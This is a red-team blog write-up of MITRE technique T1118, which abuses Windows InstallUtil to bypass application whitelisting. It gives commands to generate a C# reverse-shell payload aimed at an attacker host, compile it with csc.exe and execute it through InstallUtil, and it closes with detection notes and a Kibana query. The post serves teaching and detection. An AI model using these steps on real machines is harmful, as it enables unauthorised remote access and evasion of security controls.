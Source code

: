 ```yaml
---
layout: post
title: "2024-06-18-t1118 installutil"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1118-installutil/
---
```


---
description: InstallUtil code execution - bypass application whitelisting.
---

# InstallUtil

## Execution

First of, let's generate a C\# payload \(with [InstallUtil script](https://github.com/khr0x40sh/WhiteListEvasion)\) that contains shellcode from msfvenom and upload the temp.cs file to victim's machine:

{% code title="attacker@local" %}
```csharp
python InstallUtil.py --cs_file temp.cs --exe_file temp.exe --payload windowsreverse_shell_tcp --lhost 10.0.0.5 --lport 443
```
{% endcode %}

Compile the .cs to an .exe:

{% code title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\csc.exe C:\experiments\installUtil\temp.cs
```
{% endcode %}

Execute the payload:

{% code title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Microsoft.NET\Framework\v4.0.30319\temp.exe
Microsoft (R) .NET Framework Installation utility Version 4.0.30319.17929
Copyright (C) Microsoft Corporation.  All rights reserved.

Hello From Uninstall...I carry out the real work...
```
{% endcode %}

Enjoy the sweet reverse shell:

![](../../.gitbook/assets/installutil-shell.png)

## Observations

Look for `InstallUtil` processes that have established connections, especially those with cmd or powershell processes running as children - you should treat them as suspicious and investigate the endpoint closer:

![](../../.gitbook/assets/installutil-procexp.png)

A very primitive query in kibana allowing to find events where InstallUtil spawns cmd:

{% code title="kibana" %}
```text
event_data.ParentCommandLine:"*installutil.exe*" && event_data.Image:cmd.exe
```
{% endcode %}

![InstallUtil launching the malicious payload](../../.gitbook/assets/installutil-kibana.png)

![csc.exe created a temp.exe which contains the reverse shell payload](../../.gitbook/assets/installutils-csc.png)

What is interesting is that I could not see an established network connection logged in sysmon logs, although I could see other network connections from the victim machine being logged.

```
Will be coming back to this one for further inspection - possibly related to sysmon configuration.
```

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1118" %}

{% embed url="https://github.com/khr0x40sh/WhiteListEvasion" %}

@spotheplanet
